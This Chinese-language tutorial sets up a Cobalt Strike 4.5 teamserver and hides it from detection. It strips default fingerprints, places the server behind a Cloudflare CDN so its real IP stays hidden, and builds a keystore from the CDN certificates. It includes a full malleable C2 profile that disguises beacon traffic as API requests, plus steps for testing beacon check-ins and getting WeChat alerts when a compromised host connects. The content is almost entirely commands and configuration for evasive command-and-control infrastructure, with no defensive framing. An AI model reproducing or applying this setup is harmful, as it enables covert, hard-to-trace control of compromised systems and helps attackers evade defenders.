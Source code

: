 # 0x01 CS服务端搭建
将CS4.5安装包上传到VPS上，执行如下命令即可启动，需要注意，IP地址不能是0.0.0.0
```
./teamserver 192.168.0.125 password
```

# 0x02 CS服务端特征去除
## 01 修改teamserver默认端口
打开文件teamserver，将默认的50050端口改为其他端口
## 02 修改teamserver默认指纹信息
不需要修改teamserver中的cobalt strike信息，阅读代码可知，当没有证书的时候会创建带有cobalt strike信息的证书，下面我们会创建自己的证书，就不需要修改teamserver中的cobalt strike信息
# 0x03 CS隐藏真实IP
思路：基于CDN隐藏真实IP
## 步骤1 注册一个域名
有的文章提到使用www.freenom.com平台进行注册，我这边测试从freenom注册免费域名挺费劲的，试了几次都没成功，建议从namesilo购买一个域名，选一个不那么大众化的，每年0.99$
## 步骤2 cdn平台配置dns解析
此处需要大量图文说明，参见文章(https://xz.aliyun.com/t/11099)[https://xz.aliyun.com/t/11099]中的”CDN平台配置DNS解析”部分：https://xz.aliyun.com/t/11099#toc-2
```
添加DNS记录时如下
Name：ybdt，IPv4 address：服务器 IP
```
## 步骤3 CDN平台创建证书
此处需要大量图文说明，参见文章(https://xz.aliyun.com/t/11099)[https://xz.aliyun.com/t/11099]中的”CDN平台创建证书”部分：https://xz.aliyun.com/t/11099#toc-3
```
要注意，创建时要保存证书和私钥，不然后面没法再看到私钥
```
## 步骤4 CDN平台禁用缓存
此处需要大量图文说明，参见文章(https://xz.aliyun.com/t/11099)[https://xz.aliyun.com/t/11099]中的”CDN平台禁用缓存”部分：https://xz.aliyun.com/t/11099#toc-4
## 步骤5 生成CS证书
进入vps中的cs文件夹中，创建两个文件：server.pem（文件中贴入上面的源证书）和server.key（文件中贴入上面的私钥），然后生成新的cobaltstrike证书，如果原先的cobaltstrike文件夹内有默认的.store证书，需要先删除掉默认的
```
openssl pkcs12 -export -in server.pem -inkey server.key -out cfcert.p12 -name cloudflare_cert -passout pass:123456

这里是利用pem和key文件创建新的cert证书，这里的pass密码需要修改，改为复杂的密码，不要使用123456
```
借助生成的cert证书，通过以下命令生成store证书
```
keytool -importkeystore -deststorepass 123456 -destkeypass 123456 -destkeystore cfcert.store -srckeystore cfcert.p12 -srcstoretype PKCS12 -srcstorepass 123456 -alias cloudflare_cert
```
## 步骤6 创建profile文件
```
set sleeptime "3000";

https-certificate {
    set keystore "cfcert.store";
    set password "123456";
}

http-stager {
    set uri_x86 "/api/1";
    set uri_x64 "/api/2";
    client {
        header "Host" "ybdt.test.com";}
    server {
        output{
            print;
        }
    }
}

http-get {
    set uri "/api/3";
    client {
        header "Host" "ybdt.test.com";
        metadata {
            base64;
            header "Cookie";
        }
    }
    server {
        output {
            print;
        }
    }
}

http-post {
    set uri "/api/4";
    client {
        header "Host" "ybdt.test.com";
        id {
            uri-append;
        }
        output {
            print;
        }
    }
    server {
        output {
            print;
        }
    }
}

```
## 步骤7 创建监听器
此处参见文章(https://xz.aliyun.com/t/11099)[https://xz.aliyun.com/t/11099]中的”启动teamserver”部分：https://xz.aliyun.com/t/11099#toc-9
```
需要注意，CloudFlare CDN免费支持的端口如下
http:
80、8080、8880、2052、2082、2086、2095
https:
443、2053、2083、2087、2096、8443
```
## 步骤8 上线测试
上线后，我这边wireshark抓包，抓到的ip查询后发现是微软云（可能是cloudflare的节点在微软云上，或其他原因），如下图  
![image](./pic/01.png)
```
注意，vps的防火墙要打开，我就在这卡了一会
```

# 0x04 CS上线微信提醒
此处参见文章(https://xz.aliyun.com/t/10698)[https://xz.aliyun.com/t/10698]中的”微信单人提醒”部分：https://xz.aliyun.com/t/11099#toc-9

vps会提示需要转发x11请求，解决办法：启动时需要加一个参数-Djava.awt.headless=true，修改后如下
```
java -XX:ParallelGCThreads=4 -XX:+AggressiveHeap -XX:+UseParallelGC -Djava.awt.headless=true -classpath ./cobaltstrike.jar aggressor.headless.Start $*
```
注释掉一处安全提醒
```
This can be done by editing the accessibility.properties file for OpenJDK:
sudo vim /etc/java-8-openjdk/accessibility.properties
Comment out the following line:
assistive_technologies=org.GNOME.Accessibility.AtkWrapper
```

# 参考链接
```
https://xz.aliyun.com/t/11099
https://xz.aliyun.com/t/10698
https://github.com/microsoft/vscode-arduino/issues/644
```